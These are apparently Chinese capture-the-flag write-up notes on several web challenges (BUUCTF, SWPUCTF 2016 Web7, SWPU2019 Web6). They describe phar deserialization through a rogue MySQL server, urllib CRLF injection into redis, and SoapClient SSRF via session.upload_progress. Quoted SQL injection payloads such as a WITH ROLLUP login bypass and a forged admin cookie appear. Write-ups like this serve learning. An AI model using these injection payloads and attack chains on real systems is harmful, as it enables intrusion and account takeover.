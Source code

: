 buu环境有变，直接cmd那里弹shell即可。
soapclient+CRLF参考：https://blog.csdn.net/qq_42181428/article/details/100569464

看了下官方WP，出题人本意似乎是想在admin.php的wakeup函数里提供flag获取方式，这样就需要新的姿势了
出题人笔记：https://xz.aliyun.com/t/6057
在wakeup里的话就需要去想方法触发反序列化了，这其实就对应了admin.php里面sql的奇怪代码：
$reflect = new ReflectionClass($this->clazz);
$this->instance = $reflect->newInstanceArgs();

$reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
$reflectionMethod->invoke($this->instance, $this->arg1);

$reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
$reflectionMethod->invoke($this->instance, $this->arg2);

$reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
$reflectionMethod->invoke($this->instance, $this->arg3);

分别对应了：
$m = new mysqli();
$m->init();
$m->real_connect('ip','select 1','select 1','select 1',3306);
$m->query('select 1;');

后面总结的话，就是mysql也会触发phar反序列化，那么 Rogue Mysql 的攻击当然适用于 phar 反序列化了。
猛。

## [SWPUCTF 2016]Web7
关键词：python urllib头注入
参考：https://guokeya.github.io/post/swpuctf-2016web7urllib-tou-zhu-ru-ssrf/
很久之前的洞了，学习一下原理就行。
input界面随手输个1报错：
Powered by CherryPy 17.4.2
调用了urllib2.open
漏洞原理是urllib在解析url时。接受URL编码的值。会包含在HTTP数据流中。
那么我们就可以通过%0d%0a去构造一个新的HTTP请求。通过urllib注入redis。修改admin密码
https://blog.csdn.net/niexinming/article/details/53024755
此题应该没什么意义了，年代过于久远。

## [SWPU2019]Web6
关键词：Mysql中的WITH ROLLUP用法；利用session.upload_progress进行文件包含和反序列化渗透
参考: https://blog.csdn.net/lllffg/article/details/114899739?spm=1001.2014.3001.5501；https://guokeya.github.io/post/EY20O7D3Q/
输入1' or 1=1#显示wrong password，说明只会检测password（如果不检测的话就直接过了
想起来前几天blackwatch那道题用的rollup，这里也尝试一下：1' or '1'='1' group by passwd with rollup having passwd is NULL #
根据官方提示wsdl.php，method=hint得到：a few file may be helpful index.php Service.php interface.php se.php
显然可以用file_read方法读取源码。
读取到除了Service.php的其他四个文件源码。调用get_flag提示需要admin以127.0.0.1访问，cookie中有一串加密的代码，通过逆向encode.php得到cookie值为xiaoC:1。（可以跳过
伪造一个admin 加密一下是xZmdm9Nxag==。现在有了admin身份，还需要127.0.0.1
ini_set('session.serialize_handler', 'php'); https://www.freebuf.com/vuls/202819.html；https://blog.spoock.com/2016/10/16/php-serialize-problem/?utm_source=tuicool&utm_medium=referral
由于在已给的四个源码里都没有找到get_flag类，所以猜测一定是存在于我们无法读取的Service.php。那么思路就是 先生成ssrf的paylaod，然后利用session.upload_progress打过去，再加上soapcilent触发ssrf 那么现在admin和127.0.0.1都有了。最后只需要利用se.php的反序列化call一下service.php的get_flag即可（芜湖~
